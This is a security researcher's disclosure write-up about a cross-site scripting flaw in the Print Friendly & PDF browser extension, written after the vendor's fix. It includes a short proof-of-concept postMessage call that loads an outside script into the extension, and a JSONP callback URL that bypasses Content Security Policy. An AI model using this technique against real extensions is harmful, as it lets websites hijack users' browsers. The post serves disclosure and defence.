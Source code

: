 ```yaml
---
title: "Print Friendly & PDF: Full compromise"
date: 2021-04-13T12:41:35+0200
description: Any website could completely compromise Print Friendly & PDF browser extension. The fix is not very convincing.
categories:
- security
- add-ons
---
```


I looked into the Print Friendly & PDF browser extension while helping someone figure out an issue they were having. The issue turned out unrelated to the extension, but I already noticed something that looked very odd. A quick investigation later I could confirm a massive vulnerability affecting all of its users (close to 1 million of them). Any website could easily gain complete control of the extension.

{{< img src="print_friendly.png" alt="Print Friendly & PDF in Chrome Web Store: 800,000+ users" width="600" />}}

This particular issue has been resolved in Print Friendly & PDF 2.7.39 for Chrome. The underlying issues have not been addressed however, and the extension is still riddled with insecure coding practices. Hence my recommendation is still to uninstall it. Also, the Firefox variant of the extension (version 1.3) is still affected. I did not look at the Microsoft Edge variant but it hasn’t been updated recently and might also be vulnerable.

*Note*: To make the confusion complete, there is a browser extension called Print Friendly & PDF 2.1.0 on the Firefox Add-ons website. This one has no functionality beyond redirecting the user to `printfriendly.com` and isn’t affected. The problematic Firefox extension is being distributed from the vendor’s website directly.

{{< toc >}}

## Summary of the findings

As of version 2.7.33 for Chrome and 1.3 for Firefox, Print Friendly & PDF marked two pages (`algo.html` and `core.html`) as web-accessible, meaning that any web page could load them. The initialization routine for these pages involved receiving a `message` event, something that a website could easily send as well. Part of the message data were scripts that would then be loaded in extension context. While normally [Content Security Policy](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Content_Security_Policy) would prevent exploitation of this [Cross-Site Scripting vulnerability](https://en.wikipedia.org/wiki/Cross-site_scripting), here this protection was relaxed to the point of being easily circumvented. So any web page could execute arbitrary JavaScript code in the context of the extension, gaining any privileges that the extension had.

The only factor slightly alleviating this vulnerability was the fact that the extension did not request too many privileges:

{{< highlight json >}}
"permissions": [ "activeTab", "contextMenus" ],
{{< /highlight >}}

So any code running in the extension context could “merely”:

* Persist until a browser restart, even if the website it originated from is closed
* Open new tabs and browser windows at any time
* Watch the user opening and closing tabs as well as navigating to pages, but without access to page addresses or titles
* Arbitrarily manipulate the extension’s icon and context menu item
* Gain full access to the current browser tab whenever this icon or context menu item was clicked

## Insecure communication

When the Print Friendly & PDF extension icon is clicked, the extension first injects a content script into the current tab. This content script then adds a frame pointing to the extension’s `core.html` page. This requires `core.html` to be web-accessible, so any website can load that page as well (here assuming Chrome browser):

{{< highlight html >}}
<iframe src="chrome-extension://ohlencieiipommannpdfcmfdpjjmeolj/core.html"></iframe>
{{< /highlight >}}

Next the content script needs the frame to initialize. And so it takes a shortcut by using [window.postMessage](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) and sending a message to the frame. While being convenient, this API is also rarely used securely in a browser extension (see [Chromium issue](https://bugs.chromium.org/p/chromium/issues/detail?id=1188556) I filed). Here is what the receiving end looks like in this case:

{{< highlight js >}}
window.addEventListener('message', function(event) {
  if (event.data) {
    if (event.data.type === 'PfLoadCore' && !pfLoadCoreCalled) {
      pfLoadCoreCalled = true;
      var payload = event.data.payload;
      var pfData = payload.pfData;
      var urls = pfData.config.urls;

      helper.loadScript(urls.js.jquery);
      helper.loadScript(urls.js.raven);
      helper.loadScript(urls.js.core, function() {
        window.postMessage({type: 'PfStartCore', payload: payload}, '*');
      });
      helper.loadCss(urls.css.pfApp, 'screen');
    }
  }
});
{{< /highlight >}}

No checks performed here, any website can send a message like that. And `helper.loadScript()` does exactly what you would expect: it adds a `<script>` tag to the current (privileged) extension script and attempts to load whatever script it was given.

So any web page that loaded this frame can do the following:

{{< highlight js >}}
var url = "https://example.com/xss.js";
frame.contentWindow.postMessage({
  type: "PfLoadCore",
  payload: {
    pfData: {
      config: {
        urls: {
          js: {
            jquery: url
          }
        }
      }
    }
  }
}, "*")
{{< /highlight >}}

And the page will attempt to load this script, in the extension context.

## Getting around Content Security Policy

With most web pages, this would be the point where attackers could run arbitrary JavaScript code. Browser extensions are always protected by [Content Security Policy](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Content_Security_Policy) however. The default `strict-src 'self'` policy makes exploiting Cross-Site Scripting vulnerabilities difficult (but [not impossible](/2020/02/25/mcafee-webadvisor-from-xss-in-a-sandboxed-browser-extension-to-administrator-privileges/)).

But Print Friendly & PDF does not stick to the default policy. Instead, what they have is the following:

{{< highlight json >}}
"content_security_policy": "script-src 'self'
    https://cdn.printfriendly.com
    https://www.printfriendly.com
    https://v.printfriendly.com
    https://key-cdn.printfriendly.com
    https://ds-4047.kxcdn.com
    https://www.google-analytics.com
    https://platform.twitter.com
    https://api.twitter.com
    https://cdnjs.cloudflare.com
    https://cdn.ravenjs.com",
{{< /highlight >}}

Yes, that’s a very long list of web servers that JavaScript code can come from. In particular, the CDN servers host all kinds of JavaScript libraries. But one doesn’t really have to go there. Elsewhere in the extension code one can see:

{{< highlight js >}}
var script = document.createElement("script");
script.src = this.config.hosts.ds_cdn +
    "/api/v3/domain_settings/a?callback=pfMod.saveAdSettings&hostname=" +
    this.config.hosts.page + "&client_version=" + hokil.version;
{{< /highlight >}}

See that `callback` parameter? That’s [JSONP](https://en.wikipedia.org/wiki/JSONP), the crutch web developers used for cross-domain data retrieval before [Cross-Origin Resource Sharing](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS) was widely available. It’s essentially Cross-Site Scripting but intentionally. And the `callback` parameter becomes part of the script.

Nowadays JSONP endpoints which are kept around for legacy reasons will usually only allow certain characters in the callback name. Not so in this case. Loading `https://www.printfriendly.com/api/v3/domain_settings/a?callback=alert(location.href)//&hostname=example.com` will result in the following script:

{{< highlight js >}}
/**/alert(location.href)//(...)
{{< /highlight >}}

So here we can inject any code into a script that is located on the `www.printfriendly.com` domain. If we ask the extension to load this one, Content Security Policy will no longer prevent it. Done, injection of arbitrary code into the extension context, full compromise.

## What’s fixed and what isn’t

More than two months after reporting this issue I checked in on the progress. I discovered that, despite several releases, the current extension version was still vulnerable. So I sent a reminder to the vendor, warning them about the disclosure deadline getting close. The response was reassuring:

> We are working on it.  [...] We will be finishing the update before the deadline.

When I finally looked at the fix before this publication, I noticed that it merely removed the problematic message exchange. The communication now went via the extension’s background page as it should. That’s it.

While this prevents exploitation of the issue as outlined here, all other problematic choices remain intact. In particular, the extension continues to relax Content Security Policy protection. Given how this extension works, my recommendation was hosting the `core.html` frame completely remotely. This has not been implemented.

No callback name validation has been added to the JSONP endpoints on `www.printfriendly.com` (there are multiple), so Content Security Policy integrity hasn’t been ensured this way either.

Not just that, the extension continues to use JSONP for some functionality, even in privileged contexts. The JavaScript code executed here comes not merely from `www.printfriendly.com` but also from `api.twitter.com` for example. For reference: there is absolutely no valid reason for a browser extension to use JSONP.

And while the insecure message exchange has been removed, some of the extension’s interactions with web pages remain highly problematic.

## Timeline

* 2021-01-13: Reported the vulnerability to the vendor
* 2021-01-13: Received confirmation that the issue is being looked at
* 2021-03-21: Reminded the vendor of the disclosure deadline
* 2021-03-22: Received confirmation that the issue will be fixed in time
* 2021-04-07: Received notification about the issue being resolved
* 2021-04-12: Notified the vendor about outstanding problems and lack of a Firefox release
